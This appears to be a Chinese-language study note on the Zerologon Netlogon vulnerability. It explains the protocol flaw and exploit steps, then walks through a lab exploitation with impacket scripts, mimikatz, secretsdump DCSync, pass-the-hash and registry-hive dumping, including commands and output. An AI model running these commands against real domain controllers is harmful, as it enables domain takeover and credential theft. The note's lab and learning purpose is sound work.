









# Zerologon原理及利用

## 0x00 前言

***


**参考**

https://www.secura.com/uploads/whitepapers/Zerologon.pdf

https://threadreaderapp.com/thread/1306280553281449985.html

[[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)


## 0x01  Netlogon Remote Protocol

---

Netlogon是windows域主机上的一个服务，用于维护计算机和域控制器之间的安全通道，对用户和服务进行身份验证。服务描述如下：

> Maintains a secure channel between this computer and the domain controller for authenticating users and services. If this service is stopped, the computer may not authenticate users and services and the domain controller cannot register DNS records. If this service is disabled, any services that explicitly depend on it will fail to start.


Netlogon服务提供了一组RPC接口，它有自己的一套认证方式，并不使用NTLM认证、Kerberos认证。至于什么具体场景会用到Netlogon协议，还没有研究过。

[[MS-NRPC]: Netlogon Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nrpc/ff8f970f-3e37-40f7-bd4b-af7336e4792f)

> Specifies the Netlogon Remote Protocol, an RPC interface that is used for user and machine authentication on domain-based networks; to replicate the user account database for operating systems earlier than Windows 2000 backup domain controllers; to maintain domain relationships from the members of a domain to the domain controller, among domain controllers for a domain, and between domain controllers across domains; and to discover and manage these relationships.

类似DRS服务，其对应SPN是E3514235-4B06-11D1-AB04-00C04FC2DCD2，那既然Netlogon也是域内主机上的一个服务，它对应的SPN是什么？通过[查询](https://adsecurity.org/?page_id=183)，AD会自动将一些常见的服务映射为Host SPN。每个加入域的主机都有一个SPN，叫做Host SPN。Host SPN对应的SPN列表，可以在`CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration`中的`sPNMappings`中查到。




## 0x02 Netlogn协议认证

> A Netlogon session is initiated by the client, whereby client and server exchange random 8-byte nonces (called client and server challenges) with each other. They both compute a session key by mixing both challenges with the shared secret using a key derivation function. Then the client uses this session key to compute a client credential. The server recomputes this same credential value and if it matches it is concluded that the client must know the session key, and therefore the client must also know the computer password.
>
> During the authentication handshake both parties can negotiate whether they want to seal and sign (encrypt and cryptographically authenticate) subsequent messages, which is essential to protect against network-level attackers. When encryption is disabled, all Netlogon calls that perform an important action must still contain an authenticator value that is also computed using the session key. 


Client Credential是由client调用`ComputeNetlogonCredential`得出的，它使用的是AES-CFB8算法：







## 0x03 Zerologon利用原理

### Exploit step 1: spoofing the client credential

设置client challenge和client credential为8字节0，如果调用`NetrServerAuthenticate3`可以通过认证，说明成功碰到满足调节的Session Key。计算机帐户在无效登录后没有锁定，我们可以简单地尝试很多次，直到我们击中这样的密钥并身份验证成功。 


***注：***

一般都是伪装为DC$，这样就有足够的权限做DCSync。

如果想伪装成其他`machine$`,  `dc_ip`还是DC的IP，用于连接RPC Server；`target_computer`要改成其他machine；`NETLOGON_SECURE_CHANNEL_TYPE`要设置为`WorkstationSecureChannel: A secure channel from a domain member to a DC.`。已测试过有效，可以将其他machine$密码置空


### Exploit step 2: disabling signing and sealing

signing and sealing 会对后续的通信过程加密及认证，我们需要在`NetrServerAuthenticate3`时通过flag关闭它。

默认情况下，当服务器没有设置此标志时，客户端将拒绝连接（可能是防止降级攻击的措施），但服务器不会拒绝不请求加密的客户端。Zerologon的patch，就是通过强制signing and sealing来阻断这个利用过程的。


### Exploit step 3: spoofing a call

> Even when call encryption is disabled, every call that does something interesting must contain a so-called authenticator value. This value is computed by applying ComputeNetlogonCredential (with the session key) to the value ClientStoredCredential + Timestamp. 

> ClientStoredCredential is an incrementing value maintained by the client. When performing the handshake, it is intialised to the same value as the ClientCredential we provided. This client credential consists solely of zeroes, so ClientStoredCredential will be 0 for the first call performed after authentication.

> Timestamp should contain the current Posix time, and is included in the call by the client along with the authenticator. It turns out, however, that the server does not actually place many restrictions on what this value can be (which makes sense, otherwise clock skew would become very troublesome), so we can simply pretend that it’s January 1st, 1970 and also set this value to 0.

signing and sealing后，后续过程调用仍要提供一个authenticator，它的计算就简单多了，直接client credential递增以及提供时间戳即可。有了authendicator，就可以调用Netlogon RPC方法了。


### Exploit step 4: changing a computer’s AD password

[MS-NRPC]有很多与数据复制有关的方法，但自从引入Active Directory后就禁用了；` NetrServerPasswordGet`可以获取账户密码Hash，但Hash需要Session Key解密。最终，作者使用了`NetrServerPasswordSet2 `方法设置DC密码为空，再滥用DC$账户的高权限。

`NetrServerPasswordSet2 `的参数`ClearNewPassword`代表要设置的新密码，它是一个516 bytes数据，最后4 bytes表示密码的长度。设置`ClearNewPassword`为516字节0，从而将机器账户密码设置为空。




### Exploit step 5: from password change to domain admin

使用空密码远程登陆DC，进行DCSync等后续操作。


### 影响

Zerologon只是将AD中的密码置空，但Server机器SAM注册表中仍存储着原始的密码，从而导致Server机器与AD的信任关系被破坏，服务不可用。可以再次利用Zerologon，设置机器账户密码为原始值，恢复环境。


DC$被置空，ZeroLogon作者发现DNS服务受影响。




其他域主机密码被置空，会无法登录该主机，提示 `The trust relationship between this workstation and the primary domain failed`


### 0x04 利用

### 1. impacket 

https://github.com/risksense/zerologon/

```
C:\Users\win10\Desktop\zerologon>python set_empty_pw.py ringdc-pc 192.168.240.142
Performing authentication attempts...
==================================================================================================================
NetrServerAuthenticate3Response
ServerCredential:
    Data:                            b'\x10\x1e\x7f\xc6\xb3\xa4$\x87'
NegotiateFlags:                  556793855
AccountRid:                      1000
ErrorCode:                       0


server challenge b'\x10\x9f\x8f\xf7\xe5\xf2\x876'
NetrServerPasswordSet2Response
ReturnAuthenticator:
    Credential:
        Data:                            b'\x01\xf7m\x03\x18\x11\xc7\xb6'
    Timestamp:                       0
ErrorCode:                       0


Success! DC should now have the empty string as its machine password.
```


 [zerologo_impacket.pcapng](traffic\zerologo_impacket.pcapng) 




```
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 ring2/ringdc-pc$@192.168.240.142
secretsdump.py -no-pass -just-dc ring2.com/ringdc-pc$@192.168.240.142

```


**清理环境**

SAM注册表里存的是用户账户HASH, SYSTEM注册表里存的是机器账户HASH, 两者都需要SECURITY注册表中的bootKey解密

```
> wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe ad.test.com/Administrator@192.168.209.129
- reg save HKLM\SYSTEM system.save
- reg save HKLM\SAM sam.save
- reg save HKLM\SECURITY security.save
- get system.save
- get sam.save
- get security.save
- del /f system.save
- del /f sam.save
- del /f security.save

> secretsdump.py -sam sam.save -system system.save -security security.save LOCAL
> reinstall_original_pw.py ringdc-pc 192.168.240.142 1ed14f438a76ab48b513b466d875734d
```


注意，执行`reinstall_original_pw.py`要确保密码已被置空，用空密码算出来的SessionKey加密NTLM Hash，DC用同样的SessionKey解码，才能赋值正确。



### 2. mimikatz

```
lsadump::zerologon /target:ring2.com /account:ringdc-pc$ /exploit
lsadump::dcsync /authuser:ringdc-pc$ /authpassword:"" /user:administrator /csv
```

最新版mimikatz对流量加密了，看不到各函数调用 [zerologon_mimikatz_encrypt.pcapng](traffic\zerologon_mimikatz_encrypt.pcapng) 




**恢复环境(并未恢复至原始HASH)**

```
privilege::debug
sekurlsa::pth /user:administrator /domain:ring2.com /ntlm:b9e0cfceaf6d077970306a2fd88a7c0a
lsadump::postzerologon /target:192.168.240.142 /account:ringdc-pc$
```

